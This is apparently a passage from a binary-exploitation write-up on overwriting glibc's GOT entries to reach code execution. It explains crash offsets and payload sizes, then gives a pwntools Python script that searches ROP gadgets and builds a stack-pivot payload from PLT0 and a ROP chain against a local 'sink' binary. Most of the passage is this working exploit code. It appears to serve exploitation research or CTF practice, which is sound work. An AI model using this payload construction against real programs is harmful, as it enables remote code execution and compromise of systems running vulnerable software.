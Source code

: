 
If we run the script and crash at address 0x15. The offset of the sink slot is 0x15*8 to the start of the GOT table. One sink function may trigger multi-sink slots so you can change the variable lx to adjust the length of payload so we can find the shortest payload.

The example `asctime` crashes at 
```
0x15 
0x1
```
This result means for this function, we at least need 0x10+0x1*0x8 bytes to RCE. However, most time, one_gadget's constraints are not satisfied so we prefer a generic way, which means we have to combine fx2 with this method. The length of the example is 0x48, including 0x18 base and 0x30 ROP.

```python
from pwn import *
import re
context.arch='amd64'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
class ROPgadget():
    def __init__(self,libc: ELF,base=0):
        if Path("./gadgets").exists():
            print("[!] Using gadgets, make sure that's corresponding to the libc!")
        else:
            fp = open("./gadgets",'wb')
            subprocess.run(f"ROPgadget --binary {libc.path}".split(" "),stdout=fp)
            fp.close()
        fp = open("./gadgets",'rb')
        data = fp.readlines()[2:-2]
        data = [x.strip().split(b" : ") for x in data]
        data = [[int(x[0],16),x[1].decode()] for x in data]
        fp.close()
        self.gadgets = data
        self.base  = base
    def search(self,s):
        for addr,ctx in self.gadgets:
            match = re.search(s, ctx)
            if match:
                return addr+self.base
        return None   
def fx3(libc,pos = 1, rop_chain=[],nudge=0):
    # 
    # nudge to align stack
    assert(pos>=1)
    assert(pos<=36)
    got = libc.address + libc.dynamic_value_by_tag("DT_PLTGOT")
    plt0 = libc.address + libc.get_section_by_name(".plt").header.sh_addr
    rop = ROPgadget(libc,libc.address)

    
    escape = rop.search(r"^pop rsp .*jmp rax")
    pivot = rop.search(r"^pop rsp ; ret")
    rop_chain += [escape,got+0x3000-nudge*8] 
    rop_len = len(rop_chain)
    if pos <= rop_len:
        # We can shrink it but make it more complex
        payload = flat([got+0x18+pos*8,pivot])+flat([0]*(pos-1))+p64(plt0)+flat(rop_chain)
    else:
        # We can shrink it but make it more complex
        payload = flat([got+0x18,pivot])+flat(rop_chain)+flat([0]*(pos-rop_len))+p64(plt0)
    return got+0x08,payload


libc    = ELF("/lib/x86_64-linux-gnu/libc.so.6")
p       = process("./sink")
```

[2]: ../Infra/SinkFinder.py
[3]: ../Code
[4]: ../Temp.md